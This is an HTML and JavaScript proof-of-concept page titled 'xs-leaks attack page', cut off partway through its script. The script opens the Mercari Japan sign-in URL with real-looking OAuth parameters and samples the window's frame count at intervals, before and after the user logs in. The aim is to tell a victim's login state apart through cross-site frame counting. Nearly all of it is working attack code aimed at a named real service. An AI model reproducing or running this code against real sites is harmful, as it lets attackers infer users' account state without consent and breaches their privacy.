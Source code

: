 - 记录三次 メルカリ界面

~~~js
<!DOCTYPE html>
<html lang="zh-Hans">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet">
    <title>xs-leaks attack page</title>
  </head>

  <style>
    .sm-item {
      display: flex;
      flex-flow: row nowrap;
      padding-left: 16px;
      font-size: 1.6rem;
    }
    .item-text{
        flex: 1 1 auto;
        margin: 11px 8px 11px 16px;
        font-family: inherit !important;
        /*超过宽度，自动换行*/
        white-space: pre-wrap;
        word-wrap: break-word;
      }
  </style>

  <body style="height: 100%;">
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("https://jp.mercari.com/signin?params=client_id%3DbP4zN6jIZQeutikiUFpbx307DVK1pmoW%26code_challenge%3DlCy6XEvYsmhTigeVxvqVXGPDlXxdG-JTd79sM6GQihY%26code_challenge_method%3DS256%26noBackButton%3D1%26nonce%3DXksgrzLuxz9U%26redirect_uri%3Dhttps%253A%252F%252Fjp.mercari.com%252Fauth%252Fcallback%26response_type%3Dcode%26scope%3Dmercari%2520openid%26state%3DeyJwYXRoIjoiLyIsInJhbmRvbSI6Ii1MRkVFdkhjbk9pVCJ9%26ui_locales%3Dja");
      var pattern1 = [];
      // In a loop, register the number of iframes at 60ms interval
      var recorder = setInterval(() => {
        pattern1.push(win.length)
      }, 60);

      // Break the loop after 6 seconds
      setTimeout(() => {
         clearInterval(recorder);
         console.log("The pattern1 is:", pattern1.join(', '));
      }, 6 * 1000);
  
      //12秒后等待用户登录后再记录iframe
      setTimeout(twiceOpen,12 * 1000);
      function twiceOpen(){
        var pattern2 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern2.push(win.length)
        }, 60);
  
        // Break the loop after 18 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern2 is:", pattern2.join(', '));
~~~